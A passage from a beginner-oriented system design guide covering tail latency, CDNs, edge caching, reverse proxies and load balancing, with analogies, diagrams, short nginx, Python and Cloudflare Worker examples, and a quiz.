- Google's SRE practice popularized percentile-based SLOs and "error budgets."
- Grafana, Datadog, New Relic and AWS CloudWatch all show p50/p95/p99 charts; load tools like k6 and wrk report them too.

**⚖️ Trade-offs:**

| Metric | When to use | Downside |
|---|---|---|
| Average (mean) | Capacity math (Little's Law), cost estimates | Hides outliers, matches no real user |
| p50 (median) | "Typical" experience | Ignores the slowest half |
| p95 / p99 | Most SLOs and alerts | Needs enough samples, noisy at low traffic |
| p99.9 / max | Huge-scale or fan-out systems | Very noisy, one weird request moves it |

**⚠️ Common mistakes:**
- Alerting on the average and missing that 1% of users are suffering.
- **Averaging percentiles** (e.g., averaging the p99 of 10 servers). That's mathematically wrong; merge histograms instead.
- Computing p99.9 from a few hundred samples — it's basically just the maximum.
- Histogram buckets that are too wide (e.g., 0-1 s), so every percentile looks the same.
- Measuring only on the server and missing network and client time that users actually feel.

**🎯 Remember:** Averages hide pain. Use p50 for "typical" and p95/p99/p99.9 for "worst normal" experiences, compute them from histograms, and write SLOs in percentiles.

**🔗 See also:** [#5 Latency](#5-latency), [#6 Throughput](#6-throughput), [#8 Tail Latency](#8-tail-latency), [#86 Monitoring](#86-monitoring), [#89 SLOs](#89-slos), [#90 Error Budgets](#90-error-budgets)

---


### 8. Tail Latency

> **In one line:** Tail latency is the slowness of the rare slowest requests — and in big systems where one click touches many servers, those rare slow cases become common.

**🏠 Real-life analogy:** You're organizing a group dinner and can't order until all 10 friends arrive. Each friend is late only 1 time in 100. Still, the more friends you invite, the more likely *someone* is late — and the whole table waits for the slowest person. With 100 friends, you'd almost always be waiting.

**❓ What problem does it solve?** Modern backends **fan out**: one user request (a search, a feed, a product page) is split across many servers that each do part of the work, and the answer is ready only when the slowest one replies.
- If one server is slow 1% of the time, that sounds harmless.
- But when a request needs **all** of 100 servers, the chance that every one of them is fast is 0.99^100 ≈ 0.37. So **about 63% of user requests hit at least one slow server.**
- With 10 servers it's about 10%. Even at 1-in-1,000 slowness per server, 100 servers gives about 10% slow user requests.
- So at scale you can't just make the *average* server fast — you must design for the **tail** (the slow end of the latency distribution, like p99 and p99.9).

**⚙️ How it works — where tail latency comes from:**
- **Garbage collection (GC) pauses:** languages like Java, Go and C# occasionally pause to clean up memory.
- **Noisy neighbors:** other programs or VMs on the same machine compete for CPU, disk, memory bandwidth or network.
- **Queueing:** a short burst of traffic makes requests wait in line, even if the average load is fine.
- **Cold caches:** after a deploy or restart, data isn't in memory yet, so requests go to disk or the database.
- **Background work:** database compaction, log rotation, backups, cron jobs.
- **Retries:** a retry after a timeout adds the full timeout to that request — and retry storms add even more load.

**Mitigations (how to tame the tail):**
1. **Hedged requests:** send the request to one replica; if no answer arrives within roughly the expected p95 time, send the same request to a second replica and use whichever answers first. It costs only a few percent extra load because most requests never need the hedge.
2. **Tied requests:** send to two servers at once, but each knows about the other; whichever *starts* the work first tells the other to cancel. This avoids doing the work twice.
3. **Timeouts and deadlines:** never wait forever; pass a deadline along so downstream services can give up early.
4. **Least-loaded balancing:** route to the server with the fewest in-flight requests (or pick 2 at random and use the less busy one — "power of two choices") instead of plain round-robin.
5. **Caching:** a cache hit avoids the slow path entirely.
6. **Good-enough answers:** for search or feeds, return results from the 98 servers that answered instead of waiting for the last 2.

```mermaid
flowchart LR
    User["User request"] --> Root["Root server<br/>fans out the work"]
    Root --> Leaf1["Leaf 1: 10 ms"]
    Root --> Leaf2["Leaf 2: 12 ms"]
    Root --> Leaf3["Leaf 3: 9 ms"]
    Root --> LeafSlow["Leaf 57: 1,000 ms<br/>GC pause"]
    Root --> LeafN["... Leaf 100: 11 ms"]
    Leaf1 --> Merge["Merge results"]
    Leaf2 --> Merge
    Leaf3 --> Merge
    LeafSlow --> Merge
    LeafN --> Merge
    Merge -->|"total time = slowest leaf"| Reply["Reply after about 1,000 ms"]
```

```mermaid
sequenceDiagram
    participant C as Client
    participant A as Replica A
    participant B as Replica B
    C->>A: GET item 42
    Note over A: Stuck in a GC pause
    Note over C: No answer after the p95 time (say 10 ms)
    C->>B: Same request (the hedge)
    B-->>C: Answer in 4 ms
    C->>A: Cancel
    Note over C: Total about 14 ms instead of waiting for A
```

**Google's "The Tail at Scale"** (Jeffrey Dean and Luiz André Barroso, *Communications of the ACM*, 2013) is the classic paper on this topic. It introduced the fan-out math above and techniques like hedged requests, tied requests, micro-partitioning and selective replication. One example from the paper: in a Google benchmark reading 1,000 keys spread over 100 BigTable servers, sending a hedged request after a 10 ms delay cut the 99.9th-percentile latency from 1,800 ms to 74 ms while sending only about 2% more requests.

**💻 Example:** the fan-out math, and a tiny hedged request with Python `asyncio`.

```python
# Chance that a user request touching N servers hits at least one slow server
for n in (1, 10, 100):
    print(n, "servers:", round(1 - 0.99 ** n, 2))   # 0.01, 0.1, 0.63
```

```python
import asyncio, random

async def call_replica(name):
    # Simulated server: usually 20 ms, but 5% of the time a 2 s "GC pause"
    await asyncio.sleep(2.0 if random.random() < 0.05 else 0.02)
    return f"answer from {name}"

async def hedged_get(hedge_after=0.05):
    first = asyncio.create_task(call_replica("replica-A"))
    done, _ = await asyncio.wait({first}, timeout=hedge_after)
    if done:                                   # fast path: no hedge needed
        return first.result()
    second = asyncio.create_task(call_replica("replica-B"))   # send the hedge
    done, pending = await asyncio.wait({first, second},
                                       return_when=asyncio.FIRST_COMPLETED)
    for task in pending:
        task.cancel()                          # don't waste work on the loser
    return done.pop().result()

print(asyncio.run(hedged_get()))
```

**🌍 Real-world usage:**
- Google Search, BigTable and similar systems use hedging, tied requests and micro-partitioning as described in the paper.
- gRPC has a built-in **hedging policy** you can configure per method; Envoy proxy supports request hedging on timeouts.
- Load balancers like Envoy, NGINX and HAProxy offer least-request / least-connections algorithms to dodge slow servers.
- Teams tune garbage collectors (for example, Java's low-pause collectors such as ZGC) specifically to shrink p99.9.

**⚖️ Trade-offs:**

| Mitigation | When to use | Downside |
|---|---|---|
| Hedged requests | Read-only, idempotent calls with replicas | Extra load, must be safe to run twice |
| Tied requests | Expensive requests where duplicate work hurts | More complex, servers must talk to each other |
| Aggressive timeouts | Every network call | Too short = false failures and retry storms |
| Partial ("good enough") results | Search, feeds, recommendations | Slightly incomplete answers |
| Over-provisioning | Critical paths | Costs money |

**⚠️ Common mistakes:**
- Only watching averages or p50 and declaring the system "fast" (see #7).
- Hedging or retrying **non-idempotent** requests like payments, so the action happens twice.
- Hedging immediately instead of after a short delay, which doubles load and can make the tail worse.
- Retries without limits or backoff, creating retry storms that slow everyone.
- Forgetting that one slow shared dependency (a database, a cache cluster) puts every fan-out request at risk.

**🎯 Remember:** When one request fans out to N servers, the user waits for the slowest one, so rare slowness becomes common: 1% slow per server × 100 servers ≈ 63% slow requests. Fight the tail with hedging, timeouts, smart load balancing and caching.

**🔗 See also:** [#7 p99 Latency](#7-p99-latency-percentiles), [#5 Latency](#5-latency), [#12 Load Balancing](#12-load-balancing), [#25 Timeouts](#25-timeouts), [#26 Retries](#26-retries), [#27 Exponential Backoff (& Jitter)](#27-exponential-backoff--jitter), [#29 Idempotency](#29-idempotency)

---

### 9. CDN

> **In one line:** A CDN (Content Delivery Network) keeps copies of your website's files on servers all over the world, so every user downloads them from somewhere nearby.

**🏠 Real-life analogy:** A famous bakery in Paris is very popular worldwide. Instead of shipping every croissant from Paris, it opens small shops in many cities stocked with copies of its most popular items. Customers in Tokyo buy from the Tokyo shop in minutes. Only when the Tokyo shop runs out of something does it order more from the Paris bakery (the **origin**).

**❓ What problem does it solve?**
- **Distance = latency.** If your only server is in Virginia, a user in Sydney pays ~200 ms or more per round trip, many times per page (see #5).
- **Origin overload.** Without a CDN, every image, script and video request hits your own servers. A viral moment or a big launch can melt them.
- **Bandwidth cost.** Serving huge files (videos, game downloads) from your cloud origin is expensive.
- **Attacks.** A CDN's huge global network can absorb DDoS floods (attackers sending massive fake traffic) before they reach you.

**⚙️ How it works:**
1. **Origin** = your real server or storage (e.g., an app server or an Amazon S3 bucket). The source of truth.
2. **Edge PoPs** (Points of Presence) = CDN data centers in many cities. DNS or anycast routing sends each user to a nearby PoP.
3. **Cache HIT:** the PoP already has a fresh copy and returns it immediately. Fast, and the origin isn't touched.
4. **Cache MISS:** the PoP fetches from the origin (often through a regional "shield" cache to protect the origin), stores a copy, and returns it.
5. **How long to keep it** is controlled by `Cache-Control` headers from the origin (see #10).
6. **Pull vs push:**

| Type | How it works | Best for | Downside |
|---|---|---|---|
| **Pull CDN** (most common) | The edge fetches from the origin automatically on the first miss | Websites, APIs, images, most apps | First user in each region pays the miss |
| **Push CDN** | You upload content to the CDN ahead of time | Big files you know will be popular (videos, game patches) | You manage uploads, storage and deletion |

**What to put on a CDN:** static assets (JavaScript, CSS, fonts, images), videos and video segments, software downloads, and public, cacheable pages or API responses (product pages, blog posts). **Not** private or personalized data — unless it is explicitly marked as non-cacheable and simply passes through.

```mermaid
flowchart LR
    User["User in Mumbai"] --> Edge["CDN edge PoP<br/>in Mumbai"]
    Edge --> Check{"Fresh copy<br/>in cache?"}
    Check -->|"HIT"| Fast["Return in a few ms<br/>origin not touched"]
    Check -->|"MISS"| Shield["Regional shield cache"]
    Shield -->|"still a miss"| Origin["Origin server<br/>in Virginia"]
    Origin -->|"file + Cache-Control"| Shield
    Shield -->|"store a copy"| Edge
```

```mermaid
sequenceDiagram
    participant U1 as First user
    participant U2 as Second user
    participant E as Edge PoP
    participant O as Origin
    U1->>E: GET /img/logo.png
    E->>O: MISS, fetch from origin
    O-->>E: logo.png with Cache-Control max-age=86400
    E-->>U1: logo.png (MISS, slower)
    U2->>E: GET /img/logo.png
    E-->>U2: logo.png (HIT, fast, origin not contacted)
```

**💻 Example:** your origin tells the CDN (and browsers) what to cache using `Cache-Control`. A common nginx setup:

```nginx
# Fingerprinted assets (app.3f9a1c.js) never change: cache for 1 year
location /assets/ {
    add_header Cache-Control "public, max-age=31536000, immutable";
}

# HTML changes often: caches may store it but must re-check with the origin
location / {
    add_header Cache-Control "no-cache";
}

# Private, per-user data: never store in any cache
location /api/me {
    add_header Cache-Control "private, no-store";
}
```

Check whether the CDN served a hit:

```bash
curl -sI https://www.example.com/assets/app.3f9a1c.js | grep -iE 'cache-control|age|x-cache|cf-cache-status'
# age: 3512                     -> seconds this copy has been in the cache
# x-cache: Hit from cloudfront  -> CloudFront hit (Cloudflare uses cf-cache-status: HIT)
```

**🌍 Real-world usage:**
- **Major CDNs:** Cloudflare (huge network plus security and edge compute), Akamai (one of the oldest and largest, founded in 1998), Amazon CloudFront (tightly integrated with S3 and AWS), Fastly (very programmable, with fast purging), plus Google Cloud CDN and Azure Front Door.
- **Netflix Open Connect:** Netflix built its own CDN. It gives internet providers free **Open Connect Appliances** (caching servers full of video) to install inside their own networks, and fills them with the shows people are likely to watch during quiet off-peak hours — a push-style approach. When you press play, the video usually comes from a box very close to you.
- **Concentration risk:** in June 2021, a bug at Fastly triggered by a customer's configuration change briefly took down many large sites at once (including Reddit, major news sites and the UK government's website) until it was fixed within about an hour. A CDN is a critical dependency, so some companies use more than one.

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| Much lower latency for distant users | Stale content if caching rules are wrong |
| Offloads most traffic from the origin | Another vendor and bill to manage |
| Absorbs traffic spikes and DDoS attacks | Debugging is harder (which PoP? hit or miss?) |
| TLS handshake happens close to the user | A CDN outage can take you down too |

**⚠️ Common mistakes:**
- Caching personalized pages publicly, so one user sees another user's data.
- Giving files a long `max-age` without fingerprinting the file names, so users are stuck with old CSS/JS after a deploy.
- Forgetting to set any `Cache-Control`, so the CDN either caches nothing or guesses.
- Measuring "speed" right after a deploy when every PoP is cold (all misses).
- Leaving the origin publicly reachable, so attackers can bypass the CDN's protection entirely.

**🎯 Remember:** A CDN puts copies of your content near users: HIT = fast and cheap, MISS = fetch from origin once, then cache. Use it for static and public content, and control it with `Cache-Control`.

**🔗 See also:** [#10 Edge Caching](#10-edge-caching), [#1 DNS](#1-dns), [#5 Latency](#5-latency), [#38 Caching](#38-caching), [#98 DDoS Protection](#98-ddos-protection)

---

### 10. Edge Caching

> **In one line:** Edge caching is the set of rules that decides *what* a CDN stores, *for how long*, and *who* gets which copy — plus running small bits of code right at the edge.

**🏠 Real-life analogy:** A library branch keeps copies of popular books. It needs rules: how a book is labeled on the shelf (so the right copy is found), how long before it's checked for a newer edition, whether a slightly old edition may be lent out while the new one is on its way, separate copies for different languages, and a way to recall a book with a misprint. And no branch should ever keep a copy of *your* personal diary on the public shelf.

**❓ What problem does it solve?** A CDN is only as good as its caching rules. Without good rules:
- The hit ratio stays low (lots of misses), so the origin still does all the work.
- Users see stale or, worse, **someone else's** content.
- A fix can't go out quickly because old copies are stuck at hundreds of PoPs.

**⚙️ How it works:**
1. **Cache key** = the "label" used to find a stored copy. By default it's usually scheme + host + path + query string. You can add headers, cookies or the country, or remove useless parts. `?utm_source=newsletter` and `?utm_source=twitter` would otherwise create two copies of the same page — normalizing the key fixes that.
2. **TTL (freshness lifetime)** from `Cache-Control`:
   - `max-age=60` — any cache (browser or CDN) may reuse it for 60 s.
   - `s-maxage=600` — **shared caches only** (CDNs, proxies) may reuse it for 600 s; overrides `max-age` for them.
   - `stale-while-revalidate=30` — after it expires, for 30 more seconds the cache may serve the old copy **instantly** while fetching a fresh one in the background. Users never wait for the origin.
   - `stale-if-error=86400` — if the origin is down, keep serving the old copy for up to a day.
3. **`Vary` header** tells caches "keep separate copies depending on this request header." `Vary: Accept-Encoding` (gzip vs brotli) is good. `Vary: User-Agent` or `Vary: Cookie` is usually bad — it splits the cache into thousands of near-identical copies.
4. **Purging (invalidation):** remove copies before their TTL ends — by URL, by tag (Fastly "surrogate keys," Cloudflare "cache tags"), or everything. Even better: use **versioned file names** so new content gets a new URL and never needs purging.
5. **What can't (or shouldn't) be cached:** personalized pages (cart, account, "Hi Asha!"), responses with `Set-Cookie`, anything behind login (unless explicitly made cacheable), `POST` requests, and truly real-time data. Common trick: cache the page "shell" publicly and load the personal bits with a separate API call.
6. **Edge compute:** run small functions inside the CDN's PoPs, close to users — Cloudflare Workers, AWS Lambda@Edge and CloudFront Functions, Fastly Compute, Vercel and Netlify edge functions. Uses: rewriting cache keys, redirects, A/B tests, checking auth tokens, geo-based content, adding security headers.

```mermaid
flowchart LR
    Req["GET /shoes?color=red&utm_source=ad<br/>Accept-Encoding: br"] --> Norm["Edge normalizes the request<br/>drops utm_ params"]
    Norm --> Key["Cache key = host + /shoes?color=red<br/>+ encoding br"]
    Key --> Look{"Key found and fresh?"}
    Look -->|"yes"| Hit["HIT: serve from edge"]
    Look -->|"no"| Miss["MISS: fetch from origin<br/>store under this key"]
```

```mermaid
stateDiagram-v2
    [*] --> Fresh : stored after origin fetch
    Fresh --> Stale : s-maxage runs out
    Stale --> Revalidating : request arrives inside stale-while-revalidate window
    Revalidating --> Fresh : origin returns new copy or 304 Not Modified
    Stale --> Expired : stale window also passes
    Expired --> Fresh : next request waits for the origin
```

**💻 Example:** response headers for a product page that the CDN may cache for 10 minutes and browsers for 1 minute:

```http
HTTP/2 200
content-type: text/html; charset=utf-8
cache-control: public, max-age=60, s-maxage=600, stale-while-revalidate=30, stale-if-error=86400
vary: Accept-Encoding
surrogate-key: product-42 category-shoes
```

Purging when the product changes:

```bash
# Cloudflare: purge specific URLs
curl -X POST "https://api.cloudflare.com/client/v4/zones/$ZONE_ID/purge_cache" \
  -H "Authorization: Bearer $CF_API_TOKEN" -H "Content-Type: application/json" \
  --data '{"files":["https://shop.example.com/products/42"]}'

# Amazon CloudFront: invalidate a path pattern
aws cloudfront create-invalidation --distribution-id E1EXAMPLE123 --paths "/products/42*"
```

A tiny **Cloudflare Worker** that cleans tracking parameters out of the cache key and caches the result at the edge for 5 minutes:

```js
export default {
  async fetch(request, env, ctx) {
    const url = new URL(request.url);
    // Drop tracking params so they don't create duplicate cache entries
    for (const name of [...url.searchParams.keys()]) {
      if (name.startsWith("utm_")) url.searchParams.delete(name);
    }
    const cacheKey = new Request(url.toString(), request);
    const cache = caches.default;

    let response = await cache.match(cacheKey);          // 1. try the edge cache
    if (!response) {
      response = await fetch(cacheKey);                   // 2. miss: go to origin
      response = new Response(response.body, response);   // make headers editable
      response.headers.set("Cache-Control", "public, s-maxage=300");
      ctx.waitUntil(cache.put(cacheKey, response.clone())); // 3. store, don't block
    }
    return response;
  },
};
```

**🌍 Real-world usage:**
- News and e-commerce sites cache pages at the edge for seconds to minutes with `stale-while-revalidate`, so traffic spikes barely touch the origin.
- Fastly's surrogate keys let a store purge "every page showing product 42" in one call.
- Cloudflare Workers and Lambda@Edge are used for redirects, A/B testing, auth checks and image resizing near users.
- **Cautionary tale:** in December 2015, a caching misconfiguration at Steam (Valve) during a traffic attack caused some users to briefly see other people's account pages. Caching personalized pages is a real security risk.

**⚖️ Trade-offs:**

| Option | When to use | Downside |
|---|---|---|
| Long TTL + versioned URLs | Static assets (JS, CSS, images) | Requires a build step that fingerprints file names |
| Short TTL + `stale-while-revalidate` | HTML, product pages, public APIs | Users may see data a few seconds or minutes old |
| Purge by tag | Content that changes unpredictably (prices, articles) | Needs tagging discipline and CDN support |
| Edge compute | Logic that must run near users | Limited runtime, CPU time and APIs; another place for bugs |
| No caching (`private, no-store`) | Personal or sensitive data | Every request hits the origin |

**⚠️ Common mistakes:**
- Caching responses that contain `Set-Cookie` or personal data, leaking one user's data to others.
- `Vary: Cookie` or `Vary: User-Agent`, which destroys the hit ratio.
- Letting tracking parameters (`utm_*`, `fbclid`) into the cache key, creating thousands of duplicate entries.
- Relying on "purge everything" as the normal way to deploy — it causes a stampede of misses to the origin.
- **Cache poisoning:** the edge varies its response on a header that isn't part of the cache key, so an attacker can get a bad response stored and served to everyone.

**🎯 Remember:** Edge caching = the right cache key + the right TTL (`s-maxage`, `stale-while-revalidate`) + a plan to purge — and never cache anything personal. Edge compute lets you run small bits of logic right next to the user.

**🔗 See also:** [#9 CDN](#9-cdn), [#5 Latency](#5-latency), [#3 HTTP/2 & HTTP/3](#3-http2--http3), [#38 Caching](#38-caching), [#39 Cache Invalidation](#39-cache-invalidation)

---

### 🧠 Part 1 Quiz

**Q1. You're moving your website to a new server (new IP address) tomorrow. Your DNS A record has a TTL of 86400. What should you do, and why?**
<details><summary>Show answer</summary>

Lower the TTL (e.g., to 60-300 seconds) at least a day before the move, so resolvers' cached copies of the old answer (which may live up to 86,400 s = 24 hours) expire. After switching the record, most users will pick up the new IP within minutes; keep the old server running for a while for stragglers, then raise the TTL again.

</details>

**Q2. TCP vs UDP: which would you choose for the audio in a video-calling app, and why?**
<details><summary>Show answer</summary>

UDP (usually via WebRTC/RTP). In a live call, a lost packet of audio is useless if it arrives late, so TCP's retransmissions and strict ordering would only add delay and stutter. The app conceals small losses instead. You'd still keep a TCP/TLS fallback for networks that block UDP.

</details>

**Q3. Your API's average latency is 82 ms, yet users complain it's "sometimes really slow." What metrics would you look at and why?**
<details><summary>Show answer</summary>

Look at percentiles — p50, p95, p99 and p99.9 — computed from histograms. Averages hide outliers: most requests may take 40 ms while 1% take 2 seconds. Users who make many requests will hit those slow ones often, so set SLOs and alerts on p95/p99, not the average.

</details>

**Q4. HTTP/2 vs HTTP/3: why can HTTP/3 be noticeably faster for mobile users?**
<details><summary>Show answer</summary>

HTTP/2 multiplexes streams over one TCP connection, so a single lost packet stalls all streams (TCP head-of-line blocking), and a Wi-Fi to cellular switch kills the connection. HTTP/3 runs over QUIC/UDP: streams are independent, the handshake combines transport and TLS (1 round trip, 0-RTT on resume), and connection IDs let the connection survive network changes.

</details>

**Q5. Product pages load slowly for users in Asia; your only origin is in Virginia. Pages are the same for everyone except a small "Hi, name" and cart widget. What would you do?**
<details><summary>Show answer</summary>

Put the site behind a CDN and cache the shared page at the edge, e.g., `Cache-Control: public, s-maxage=300, stale-while-revalidate=30`, with fingerprinted static assets cached for a year. Move the personalized greeting and cart into a separate uncached API call (`private, no-store`) so no user's data is ever stored in a shared cache, and purge by URL or tag when a product changes.

</details>


## Part 2 — Traffic Management

Once your app runs on more than one server, a new question shows up: how does each request reach the right, healthy server quickly, fairly and safely? This part follows a request from the edge of your system to the exact container that answers it. You will learn about the "front doors" (reverse proxies, load balancers, API gateways), the "bouncers" (rate limiters), and the "phone books and doctors" (service discovery, health checks, probes) that keep traffic flowing even while servers crash, scale and redeploy.

```mermaid
flowchart LR
    Users["Users and apps"] --> GLB["Global load balancing<br/>GeoDNS or anycast"]
    GLB --> RP["Reverse proxy and<br/>load balancer (11, 12)"]
    RP --> GW["API gateway (13)<br/>with rate limiting (14)"]
    GW -->|"routes to"| Orders["Orders service"]
    GW -->|"routes to"| Payments["Payments service"]
    GW -.->|"looks up addresses"| SD[("Service registry (15)")]
    HC["Health checks and probes (16, 17)"] -.->|"remove sick servers"| RP
    HC -.->|"keep list up to date"| SD
```

### 11. Reverse Proxies

> **In one line:** A reverse proxy is a "front desk" server that receives every visitor's request and quietly passes it to the right server hidden behind it.

**🏠 Real-life analogy:** Think about calling a big company. You dial one public number and a receptionist answers. She asks what you need and transfers you to the right person in billing or support. You never learn their private desk numbers, and if someone is out sick she simply transfers you to a colleague. That receptionist is a **reverse proxy**. Now picture the opposite: a personal assistant who makes calls *for you*, so the other side only ever sees the assistant's number. That is a **forward proxy**.

**❓ What problem does it solve?**
Without a reverse proxy, every app server sits directly on the internet:
- Each server needs its own public IP address, its own TLS certificate (TLS = the encryption behind the padlock in HTTPS) and its own security hardening.
- Attackers can poke each server directly, and there is no single place to block bad traffic.
- Adding, moving or replacing a server changes what users must connect to.
- Every app re-implements the same chores: compression, serving images, redirecting HTTP to HTTPS, coping with slow mobile connections.

A reverse proxy gives you **one front door** where these chores are done once, for everyone.

**⚙️ How it works:**

A *proxy* is any middleman that forwards traffic on someone else's behalf. There are two kinds:

| | Forward proxy | Reverse proxy |
|---|---|---|
| Works on behalf of | Clients (users) | Servers (your backend) |
| Who sets it up | The client or its company | The website owner |
| Hides | The client from websites | The servers from users |
| Typical uses | Office web filtering, school caching, privacy | TLS, routing, caching, protecting backends |
| Examples | Squid, corporate proxies | Nginx, HAProxy, Envoy, Cloudflare |

The life of a request through a reverse proxy:
1. DNS (the internet's phone book) for `shop.example.com` points to the **proxy's** IP, not to your app servers.
2. The browser opens an HTTPS connection to the proxy.
3. **TLS termination:** the proxy decrypts the traffic with your certificate. Inside your private network it can talk plain HTTP (or re-encrypt if your security rules require it).
4. **Routing:** it reads the request (host name, path like `/api` or `/images`, headers) and picks the right backend.
5. It forwards the request and adds headers such as `X-Forwarded-For` (the real client IP), because the backend now only "sees" the proxy.
6. It gets the response, may **compress** it (gzip or brotli shrink text a lot), may **cache** it (keep a copy to answer the next identical request instantly), and sends it back.

Its main jobs:
- **TLS termination** — certificates and encryption math handled in one place.
- **Compression** — smaller responses, faster pages, lower bandwidth bills.
- **Caching** — popular responses (product images, public pages) served without touching the app.
- **Hiding and protecting backends** — only the proxy is public. It can block bad IPs, cap request sizes, and absorb slow clients (it buffers a slow phone upload so your app server isn't stuck waiting).
- **Routing** — `/api/` to API servers, `/blog/` to the blog, `/static/` straight from disk.
- **Load balancing** — spreading requests across many servers (next topic, #12).

```mermaid
flowchart LR
    subgraph Forward["Forward proxy - works for the CLIENTS"]
        Laptop["Employee laptop"] --> FP["Office forward proxy"]
        Phone["Employee phone"] --> FP
        FP --> AnySite["Any website on the internet<br/>sees only the proxy IP"]
    end
    subgraph Reverse["Reverse proxy - works for the SERVERS"]
        Visitor["Visitor on the internet"] --> RProxy["Reverse proxy<br/>shop.example.com"]
        RProxy --> AppA["App server A (private)"]
        RProxy --> AppB["App server B (private)"]
        RProxy --> Disk["Static files on disk"]
    end
```

```mermaid
sequenceDiagram
    participant U as Browser
    participant P as Reverse Proxy
    participant C as Proxy Cache
    participant A as App Server
    U->>P: HTTPS GET /api/products (encrypted)
    Note over P: TLS terminated here, plain HTTP inside the private network
    P->>C: Do we have /api/products stored?
    alt cache hit
        C-->>P: Yes, here is the saved copy
    else cache miss
        P->>A: GET /api/products plus X-Forwarded-For header
        A-->>P: 200 OK with JSON
        P->>C: Save a copy for 60 seconds
    end
    P-->>U: 200 OK, gzip-compressed, over HTTPS
```

**💻 Example:** An Nginx config that terminates TLS, forces HTTPS, compresses, serves static files, caches one API route and hides the app running on port 3000.

```nginx
proxy_cache_path /var/cache/nginx keys_zone=apicache:10m max_size=1g;

server {
    listen 80;
    server_name shop.example.com;
    return 301 https://$host$request_uri;          # force HTTPS
}

server {
    listen 443 ssl;
    server_name shop.example.com;
    ssl_certificate     /etc/ssl/certs/shop.crt;   # TLS termination
    ssl_certificate_key /etc/ssl/private/shop.key;

    gzip on;                                       # compression
    gzip_types text/css application/json application/javascript;
    client_max_body_size 10m;                      # reject huge uploads early

    location /static/ {
        root /var/www;                             # served from disk, app never sees it
        expires 7d;
    }

    location /api/products {
        proxy_cache apicache;                      # cache this public, shared data
        proxy_cache_valid 200 60s;
        proxy_pass http://127.0.0.1:3000;
    }

    location /api/ {
        proxy_pass http://127.0.0.1:3000;          # hidden backend
        proxy_set_header Host $host;
        proxy_set_header X-Forwarded-For $proxy_add_x_forwarded_for;
        proxy_set_header X-Forwarded-Proto $scheme;
    }
}
```

The app on port 3000 listens only on the local machine (`127.0.0.1`), so nobody on the internet can reach it except through Nginx.

**🌍 Real-world usage:**
- **Nginx** began as a web server designed for very many simultaneous connections and is now one of the most widely used reverse proxies on the internet.
- **HAProxy** is known for very fast TCP/HTTP proxying and load balancing; Stack Overflow has written publicly about running its traffic through HAProxy.
- **Envoy** was created at Lyft and is the proxy inside service meshes such as Istio.
- **Traefik** watches Docker and Kubernetes and builds its routes automatically from container labels.
- **Caddy** obtains and renews HTTPS certificates (from Let's Encrypt) automatically.
- **Cloudflare** is essentially a giant reverse proxy (CDN, firewall, DDoS protection) in front of millions of websites. In its July 2019 outage, one badly written firewall regex rule, pushed everywhere at once, drove its proxies' CPUs to 100% and many sites behind it returned 502 errors. Lesson: the proxy sits on the critical path of every request.

| Tool | Best known for |
|---|---|
| Nginx | Web server plus reverse proxy, static files, huge community |
| HAProxy | Very fast TCP/HTTP load balancing, detailed stats page |
| Envoy | Modern, API-configurable, rich metrics, used by service meshes |
| Traefik | Auto-configuration from Docker/Kubernetes, built-in Let's Encrypt |
| Caddy | Simplest config, automatic HTTPS by default |

**⚖️ Trade-offs:**

| Pros | Cons |
|---|---|
| One place for TLS, compression, caching, security rules | One more hop (usually well under a millisecond on the same network) |
| Backends stay private and can be swapped freely | Becomes a single point of failure unless you run two or more |
| Apps get simpler (no certificate handling) | A bad proxy config change can take down every site behind it |
| Can absorb slow clients and simple attacks | Apps lose the real client IP unless you forward it in headers |

**⚠️ Common mistakes:**
- Forgetting `X-Forwarded-For`, so app logs and per-IP limits see only the proxy's IP for every user.
- Blindly trusting `X-Forwarded-For` from anyone: clients can fake it. Only trust it when it was set by your own proxy.
- Caching personal pages (carts, account pages) with a shared cache key, so user A sees user B's data.
- Leaving the backend reachable from the internet as well, so attackers simply skip the proxy.
- Proxy timeouts or body-size limits that are too small (Nginx's default upload limit is 1 MB), causing confusing 504 or 413 errors.

**🎯 Remember:** A forward proxy hides the client; a reverse proxy hides the servers. Put a reverse proxy "front door" in front of your apps and do TLS, compression, caching and routing there once.

**🔗 See also:** [#12 Load Balancing](#12-load-balancing), [#13 API Gateway](#13-api-gateway), [#14 Rate Limiting](#14-rate-limiting)

---


### 12. Load Balancing

> **In one line:** A load balancer spreads incoming requests across many servers so none of them gets overwhelmed, and stops sending work to servers that are broken.

**🏠 Real-life analogy:** A busy supermarket has ten checkout lanes and a staff member at the front pointing shoppers: "Lane 4 is free!" If lane 7's till breaks, she stops sending people there. During the holiday rush the manager opens more lanes and she starts using them at once. Shoppers never need to know how many lanes exist — they just follow her pointing finger.

**❓ What problem does it solve?**
- **One server has limits.** It has a fixed amount of CPU, memory and network. Buying a bigger machine (*vertical scaling*) works for a while, then gets very expensive or impossible.
- **One server is a single point of failure (SPOF)** — if it dies, your whole product is down.
- **Deploys cause downtime** if you must restart your only server.

With a load balancer (LB) you can do **horizontal scaling** (add more ordinary servers), survive crashes, and update servers one at a time while the others keep serving.

**⚙️ How it works:**
1. Users connect to one address — a DNS name or a *virtual IP* (VIP) that belongs to the LB, not to any single server.
2. The LB keeps a list of backend servers (called a *pool*, *upstream* or *target group*).
3. For each new connection or request it picks a **healthy** server using an **algorithm** and forwards the traffic.
4. It keeps running **health checks** and removes failing servers from the pool (see #16).

**Layer 4 vs Layer 7.** "Layers" come from the OSI model, a textbook way to slice networking into levels. Layer 4 is the transport level (TCP/UDP, IP addresses, ports). Layer 7 is the application level (HTTP: URLs, headers, cookies).

| | L4 load balancer | L7 load balancer |
|---|---|---|
| Sees | IPs, ports, TCP/UDP packets | Whole HTTP request: path, host, headers, cookies |
| Route by URL? | No | Yes (`/api` to pool A, `/images` to pool B) |
| TLS | Usually passes it through untouched | Usually terminates it |
| Speed | Extremely fast, little work per packet | More CPU per request |
| Protocols | Anything on TCP/UDP (databases, games, MQTT) | HTTP/1.1, HTTP/2, gRPC, WebSockets |
| Examples | AWS NLB, HAProxy TCP mode, Google Maglev | AWS ALB, Nginx, Envoy, HAProxy HTTP mode |

**Algorithms — how the LB chooses a server:**

| Algorithm | How it picks | Good for | Watch out for |
|---|---|---|---|
| Round robin | Next server in turn: 1, 2, 3, 1, 2, 3... | Identical servers, short similar requests | Ignores how busy each server really is |
| Weighted round robin | Like round robin, but weight 3 gets 3x the requests | Mixed machine sizes, canary releases (5% to a new version) | Weights are static guesses |
| Least connections | Server with the fewest open connections right now | Requests of very different lengths, WebSockets, uploads | A brand-new empty server can get flooded at once |
| Least response time | Fastest recent responses, often combined with fewest connections | Servers with uneven speed | Needs constant measuring, can over-react to noise |
